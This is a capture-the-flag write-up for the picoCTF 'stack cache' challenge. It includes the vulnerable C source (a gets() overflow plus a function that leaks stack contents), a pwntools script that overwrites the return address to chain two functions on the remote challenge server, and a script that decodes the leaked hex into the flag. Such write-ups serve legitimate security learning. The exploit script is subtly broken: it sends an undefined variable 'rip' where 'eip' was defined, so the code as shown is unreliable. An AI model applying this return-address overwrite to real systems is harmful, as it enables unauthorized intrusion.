

# stack cache [Pwn]

Link : [stack cache](https://play.picoctf.org/practice/challenge/306?category=6&originalEvent=70&page=1)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 16
#define FLAGSIZE 64
#define INPSIZE 10

/*
This program is compiled statically with clang-12
without any optimisations.
*/

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}

void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}

void vuln(){
   char buf[INPSIZE];
   printf("Give me a string that gets you the flag\n");
   gets(buf);
   printf("%s\n",buf);
   return;
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  printf("Bye!");
  return 0;
}

```

The **win()** function does not display the flag but reads it from the buf array.

We need to find a way to disclose the flag contained in array buf.

```c
#define BUFSIZE 16
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}
```

The **UnderConstruction()** function will do the trick.

```c
#define BUFSIZE 16
void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}
```

Now just redirect the execution flow to the **win()** function and then to the **UnderConstruction()** function.

```python
from pwn import *

sh = remote('saturn.picoctf.net', 56141)

eip = p32(0x08049da0) # win()
esp = p32(0x08049e20) # UnderConstruction()

print(sh.recvuntil(b"Give me a string that gets you the flag").decode())
sh.sendline(b"A"*(10 +4) + rip + esp)
sh.interactive()
```


I wrote a python script for that.

```python
from binascii import unhexlify

cache = ['080c9a04', '0804007d', '61333337', '31646239', '5f597230', '6d334d5f', '50755f4e', '34656c43', '7b465443', '6f636970']
flag = ""
for pin in cache:
	try:
		flag += unhexlify(pin).decode()
	except:pass

print(flag[::-1])
```

